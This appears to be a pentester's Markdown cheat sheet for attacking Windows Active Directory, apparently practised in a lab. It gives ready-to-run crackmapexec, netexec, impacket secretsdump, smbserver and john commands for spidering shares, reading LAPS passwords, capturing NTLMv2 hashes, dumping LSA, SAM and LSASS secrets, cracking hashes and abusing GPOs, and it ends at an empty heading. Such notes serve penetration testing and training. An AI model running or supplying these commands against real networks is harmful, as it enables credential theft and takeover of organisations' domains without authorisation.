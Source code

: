 ## SMB Shares
```
crackmapexec smb <ip> -u <user> -p <pass> -M spider_plus
cat /tmp/cme_spider_plus/<ip.json file> | jq '. | map_values(keys)'
```

## SQL Port
```
impacket-mssqlclient -windows-auth <domain>/<user>:<pass>@<ip>
```

## LAPS
```
netexec ldap 192.168.56.11 -u 'jon.snow' -p 'iknownothing' -M laps
```

## Crack DC2 from Secretsdump
```
john DC2hash --wordlist=/usr/share/wordlists/rockyou.txt
```

## Get NTLMv2 Hashes
- Put URL File in Shares to get NTLMv2 Hashes or Access using current user to get the password Hash if not known
```
smbserver.py share . -smb2support (kali)
net use \\<ip>\share (target)
```

## Dumping Secrets / Hashes 
```
secretsdump.py <domain>/<user>:<password>@<ip>
secretsdump.py <domain>/<user>:@<ip> -hashes <hash>
crackmapexec smb -L (to see all avialble modules)
crackmapexec smb <ip> -u <username> -p <password> --lsa (use --local-auth for local acounts, use --hashes instead of -p if you only have Hash)
crackmapexec ldap <ip> -u <username> -p <password> --kdcHost <ip> -M laps
crackmapexec ldap <ip> -u <username> -p <password> --kdcHost <ip> -M lsassy
crackmapexec ldap <ip> -u <username> -p <password> --kdcHost <ip> --sam
```

## GPO
```
SharpGPOAbuse.exe
```
- Check if compromised users can access / edit any GPOs

## Token Impersonation
